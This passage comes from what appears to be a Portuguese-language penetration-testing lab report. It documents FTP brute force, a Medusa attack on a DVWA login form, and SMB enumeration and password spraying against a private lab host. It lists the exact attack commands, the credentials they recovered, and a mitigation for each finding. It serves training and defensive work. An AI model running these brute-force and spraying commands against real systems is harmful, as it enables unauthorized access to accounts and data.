 ```bash
Password: admin123
ftp> ls
```
Print salvo: `evidence/ftp_success_admin_admin123.png` (captura do prompt `ftp>` e lista de diretórios).  
- **Impacto:** acesso ao FTP pode permitir upload/download de arquivos sensíveis dependendo das permissões.  
- **Mitigação recomendada:** desativar FTP sem TLS; migrar para SFTP; aplicar lockout por falhas; políticas de senha forte.

### 4.2 DVWA — Formulário Web (HTTP FORM)
- **Configuração DVWA:** nível **Low** (intencionalmente vulnerável para aprendizado).  
- **Observações iniciais:** formulário de login em `http://192.168.56.102/dvwa/login.php` sem CSRF token válido e sem rate limiting.  
- **Ferramenta usada:** Medusa (módulo http FORM) para demonstração + Burp Suite para confirmar parâmetros e cookies de sessão.  
- **Comando (modelo):**
```bash
medusa -h 192.168.56.102 -u admin -P wordlists/small-wordlist.txt -M http -m FORM:/dvwa/login.php:username:password | tee medusa_dvwa_output.txt
```
- **Saída relevante (trecho salvo em `medusa_dvwa_output.txt`):**
```
[21:05:10]  INFO  - 192.168.56.102:80 - http - FORM - Login SUCCESS: admin:welcome
```
- **Validação:** acesso ao painel DVWA depois do login (captura `evidence/dvwa_admin_welcome.png`) mostrando a interface do DVWA com usuário `admin` autenticado.  
- **Impacto:** credenciais fracas podem resultar em controle da aplicação web; em ambientes reais isso leva a elevação de privilégio, pivoting.  
- **Mitigação recomendada:** habilitar rate limiting, implementar CSRF tokens corretamente, usar throttling/backoff, exigir senhas fortes e MFA para painéis.

### 4.3 SMB — Enumeração + Password Spraying
- **Serviço:** Samba (porta 139/445) ativo.  
- **Enumeração inicial (exemplo):**
```bash
enum4linux -a 192.168.56.102 > enum4linux_output.txt
```
- **Usuários identificados (trecho `enum4linux_output.txt`):** `administrator`, `test`, `guest`, `ftp`  
- **Password spraying (Medusa):**
```bash
medusa -h 192.168.56.102 -U wordlists/userlist.txt -P wordlists/smb-passlist.txt -M smb | tee medusa_smb_output.txt
```
- **Saída relevante:**
```
[22:00:12]  INFO  - 192.168.56.102 - smb - Login SUCCESS: test:Password1
```
- **Validação:** acesso via `smbclient`:
```bash
smbclient -L //192.168.56.102 -U test%Password1
```
Print salvo: `evidence/smb_test_Password1.png` com lista de shares acessíveis.  
- **Impacto:** se conta `test` possuir permissões de escrita/leitura em shares críticos, risco de exfiltração e movimentação lateral.  
- **Mitigação recomendada:** limitar exposição SMB, aplicar segmentação de rede, implementar MFA/kerberos forte, bloquear/alertar para tentativas em massa.

---